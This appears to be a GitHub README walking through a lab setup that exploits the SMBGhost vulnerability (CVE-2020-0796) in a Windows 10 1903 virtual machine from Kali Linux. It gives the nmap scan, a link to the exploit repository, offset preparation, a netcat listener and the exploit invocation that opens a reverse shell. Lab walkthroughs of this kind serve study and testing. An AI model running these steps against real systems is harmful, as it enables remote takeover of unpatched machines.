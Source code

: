 #READ ME
##Author Abdullah Iqbal

Install **windows 10 version 1903** on a virtual machine.
Run both kali and win 10 on the same Nat network.
Scan the windows using the nmap on kali to see which ports are open on the virtual windows.
    `sudo nmap -sS <Ip address>`
    We can see that port **445** is open, that what we need.

On kali terminal clone the GitHub repository and run the script file to see weather the install windows version is vulnerable or not using the python script.
    Git clone https://github.com/abdullah098/CVE_2020_0796
    `Python3 Scanner.py <Ip address>`
 
    If the terminal shows **Vulnerable** then the installed version of win 10 is vulnerable, otherwise, start from step 1 again. 
 
Run offsets.bat on the target machine to get the offset of windows and replace the offset that you get from windows into the CVE_2020_0796.py file.
 
Now we must make a listening port on the kali so that we can listen to the incoming communication.
    `nc -lvp <port number>`
 
Now we have to run the SMBleedingGhost.py file using the command.
    `CVE_2020_0796.py <target ip> <reverse_shell_ip> <reverse_shell_port>`
    We will receive an error after this step because of **windll**. This occurs because kali doesn’t have any windll file.
 
Make another win 10 Virtual machine and run it on same **NAT networ**. Then we will run the exploit on that machine and will redirect that to the kali listening port we started at step 7.
    Start Win 10 on same NAT network
    Install python
    Resetup the offset
    Run `CVE_2020_0796.py <target ip> <reverse_shell_ip> <reverse_shell_port>`
